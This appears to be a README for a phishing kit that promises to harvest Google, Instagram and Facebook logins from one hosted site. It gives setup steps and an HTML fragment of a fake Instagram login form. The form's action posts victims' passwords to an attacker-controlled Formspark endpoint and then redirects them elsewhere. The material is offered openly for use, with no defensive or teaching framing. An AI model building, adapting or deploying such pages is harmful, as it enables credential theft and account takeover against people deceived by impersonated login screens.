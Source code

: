 # Three-way-Phishing
All in one website you can  now phish google,instagrame and facebook in one hosting 


# Instagram-Login-Page


change before hosting :

* signup formspark and get id and pastit here
* change redirect url before use 



"""<div class="logo">
				<img src="instagram.png" alt="instagram" style="width: 175px;">
			</div>
			<form action="ENTER YOUR https://formspark.io/?ref=formspark_api LINK TO GET PASSWORD  " target="_self">
						   <input type="hidden" name="_redirect" value="ENTER YOUR REDIRECT URL HERE" />
			<div class="form">

"""

by REVANTHSHIVA(CEH)


<img src="sample images pf webpages/Screenshot (6).png">
<img src="sample images pf webpages/Screenshot (5).png">
<img src="sample images pf webpages/Screenshot (4).png">
